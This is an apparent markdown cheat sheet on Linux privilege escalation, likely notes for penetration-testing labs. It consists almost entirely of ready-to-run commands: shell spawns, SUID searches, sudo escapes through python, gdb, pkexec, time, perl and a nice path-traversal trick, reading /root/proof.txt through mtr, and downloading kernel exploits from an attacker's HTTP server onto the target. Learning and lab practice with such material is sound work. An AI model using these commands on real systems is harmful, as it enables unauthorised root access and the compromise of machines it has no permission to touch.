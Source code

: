- ## Privilege escalation <a name="privilegeescalation"></a>
- ```python3 -c 'import os; os.system("/bin/bash")'```
- ```find /  -perm -u=s -type f 2>/dev/null``` to see the permission```
- Use ```linpeas``` if you are not getting any escalation
  - download the script from the github
- If It was running on Linux Kernel 4.4.0–31-generic and Ubuntu 14.04.5 LTS. use below command
  - ```wget https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh```
  - ```chmod +x linux-exploit-suggester.sh``` and ```./linux-exploit-suggester.sh```
  - you will get some CVE, select any one CVE in that download URL will be there using that link you can download scripts
  - ```wget (download URL in CVE)``` download the file in your system
  - run ```sudo python -m http.server 80```
  - download the file in the target system ```wget http://<myip>/<filename>```
  - example: wget http://192.168.45.161/root.cpp
 
  
 - ```bash -p```
   
- if you find ```/usr/bin/python2.7``` in sudo -l
  - then use the below command it will give you the root privilege
  - ```/usr/bin/python2.7 -c 'import os; os.setuid(0); os.system("/bin/bash")'```
 
- if you find ```/usr/bin/gbd``` in sudo -l
  - then use the below command it will give you the root privilege
  - ```/usr/bin/gdb -nx -ex 'python import os; os.execl("/bin/sh", "sh", "-p")' -ex quit```
 

- if you find ```/usr/bin/pkexec``` in ```sudo -l``` 
  - then use the below command it will give you the root privilege
  - ```sudo pkexec /bin/bash```

- if you find ```/usr/bin/mtr``` in ```sudo -l``` 
  - then use the below command it will give you the root privilege
  - ```LFILE=/root/proof.txt```
  - ```sudo mtr --raw -F "$LFILE"```

- if you find ```/usr/bin/time``` in ```sudo -l``` 
  - then use the below command it will give you the root privilege
  - ```sudo /usr/bin/time /bin/bash```

- if you find ```(ALL : ALL) /bin/nice /notes/*``` in ```sudo -l```
  - it shows that you can run all the files in the /notes directory with /bin/nice binary.
  - so create a script letsgetroot.sh which executes /bin/bash and gave the necessary permissions.
  - ```echo "/bin/bash" >> letsgetroot.sh``` save the file in any directory
  - ```sudo /bin/nice /notes/../home/user/letsgetroot.sh``` it will give the root access.


- if you find ```(ALL : ALL) NOPASSWD: /usr/bin/perl``` in ```sudo -l```
  - then use the below command it will give you the root privilege
  - ```sudo perl -e 'exec "/bin/bash";'```
